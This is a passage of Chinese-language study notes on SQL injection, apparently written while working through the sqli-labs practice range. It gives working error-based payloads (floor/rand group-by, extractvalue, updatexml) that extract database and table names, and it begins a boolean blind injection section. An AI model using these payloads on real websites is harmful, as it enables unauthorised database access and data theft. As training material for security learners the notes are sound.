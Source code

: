 ```

```
id=1' AND (select 1 from (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a)b) --+
```

![image-20220114201559006](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114201559006.png)



```
id=1' AND (select 1 from (select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a)b) --+
```



```
?id=1' AND (select 1 from (select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 0,1),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a)b) --+
```



hex不需要加任何东西

`0x3a`=`:`

`0x7e`=`~`



### 简单高效的报错注入：

利用extractvalue漏洞、updatexml

```
' and extractvalue(1,concat(0x7e,(select database()),0x7e)) --+

' and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+
```





## 03布尔型盲注（布尔型盲注、布尔型时间盲注：原理、本地操作、实战）

### 靶场less8

![image-20220114202400082](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114202400082.png)

尝试多次后发现无法得到闭合方式和报错位置

——盲注

#### 尝试：

```
?id=1    正常
?id=200000    不正常